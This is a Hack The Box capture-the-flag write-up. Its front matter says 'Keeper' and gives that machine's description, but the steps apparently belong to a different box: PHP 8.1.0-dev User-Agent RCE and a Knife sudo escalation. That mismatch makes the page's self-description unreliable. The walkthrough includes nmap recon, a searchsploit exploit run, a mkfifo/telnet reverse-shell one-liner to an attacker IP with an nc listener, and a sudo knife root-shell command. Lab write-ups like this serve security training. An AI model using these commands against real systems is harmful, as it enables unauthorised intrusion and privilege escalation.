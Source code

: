 ```yaml
---
layout: single
title: Keeper - Hack The Box
excerpt: "Keeper is an easy-difficulty Linux machine that features a support ticketing system that uses default credentials. Enumerating the service, we are able to see clear text credentials that lead to SSH access. With 'SSH' access, we can gain access to a KeePass database dump file, which we can leverage to retrieve the master password. With access to the 'Keepass' database, we can access the root 'SSH' keys, which are used to gain a privileged shell on the host."
date: 2025-05-26
classes: wide
header:
  teaser: /img2/keeper.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - PHP 8.1.0-dev - 'User-Agent' Remote Code Execution [RCE]
  - Abusing Sudoers Privilege (Knife Binary) [Privilege Escalation]
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.242
```

![](/img2/Pasted%20image%2020250526145240.png)

- Whatweb 

```bash
whatweb http://10.10.10.242/
```

![](/img2/Pasted%20image%2020250526145404.png)

## Exploitation

- PHP 8.1.0-dev User Agent RCE

```bash
searchsploit php 8.1.0-dev
```

![](/img2/Pasted%20image%2020250526145645.png)

```bash
searchsploit -m php/webapps/49933.py
```

```bash
python3 49933.py
```

![](/img2/Pasted%20image%2020250526145735.png)

- Send reverse shell

```bash
TF=$(mktemp -u);mkfifo $TF && telnet 10.10.16.7 9000 0<$TF | /bin/bash 1>$TF
```

```bash
nc -nlvp 9000
```

## Post-exploitation

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250526152256.png)

- Knife Sudoers

```bash
sudo knife exec -E 'exec "/bin/sh"'
```

![](/img2/Pasted%20image%2020250526152128.png)
